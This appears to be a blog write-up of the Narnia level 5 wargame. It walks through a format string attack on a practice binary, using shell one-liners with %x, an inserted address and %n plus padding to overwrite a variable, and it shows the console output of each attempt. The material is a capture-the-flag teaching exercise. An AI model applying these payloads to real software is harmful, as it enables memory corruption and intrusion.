 A fixed sized buffer again. This time however trying to overflow it in order to
write to `i` won't work. If we look at line 9 and lookup the manpage for `snprintf`
we see that 

    The  functions  snprintf() and vsnprintf() write at most size bytes
    (including the trailing null byte ('\0')) to str.

So we won't be able to overflow this buffer. Going through the usual possible exploits 
we've only really go one more to try: [format string attack](https://en.wikipedia.org/wiki/Uncontrolled_format_string) or
*uncontrolled format string vulnerability*. This happens when user input
isn't checked, and allows the user to use format characters (`%s`, `%x`) to read or
manipulate the stack.

For me this is one of the harder exploits to understand, so this level is 
great practice for me. So if it doesn't make sense at first, stick with it and
try various strings. Hopefully you'll grok it at some point.

Let's check to see if our hunch is right. Using a few characters to start, I 
then append a list of `%x`, which read values from the stack and print them.

{% highlight console %}
narnia5@melinda:/narnia$ ./narnia5 `python -c "print 'aaaa'+'%x'*10"`
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [aaaaf7eb75b6ffffffffffffd6aef7e2fbf8616161616265376636623537666] (63)
i = 1 (0xffffd6cc)
{% endhighlight %}

Sure enough we see the beginning of the input string after the 4th `%x`. So we then
put the address if `i` into that location like and shorten the number of `%x`.

{% highlight console %}
narnia5@melinda:/narnia$ ./narnia5 `python -c "print '\xcc\xd6\xff\xff'+'%x'*5"`
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����f7eb75b6ffffffffffffd6aef7e2fbf8ffffd6cc] (44)
i = 1 (0xffffd6cc)
{% endhighlight %}

Now we have the address of `i`, we use `%n` to write to that address, remembering
to remove one `%x` to keep the right length.

{% highlight console %}
narnia5@melinda:/narnia$ ./narnia5 `python -c "print '\xcc\xd6\xff\xff'+'%x'*4 + '%n'"`
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����f7eb75b6ffffffffffffd6aef7e2fbf8] (36)
i = 36 (0xffffd6cc)
{% endhighlight %}

So we see that we've written the length of the string into `i`. We already have 
a value of 36, but we need 500. To achieve this we need to pad the string.

{% highlight console %}
narnia5@melinda:/narnia$ ./narnia5 $(python -c "print '\xcc\xd6\xff\xff'+'%x'*3 + '%500d' + '%n'")
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [����f7eb75b6ffffffffffffd6ae                                   ] (63)
i = 528 (0xffffd6cc)
{% endhighlight %}
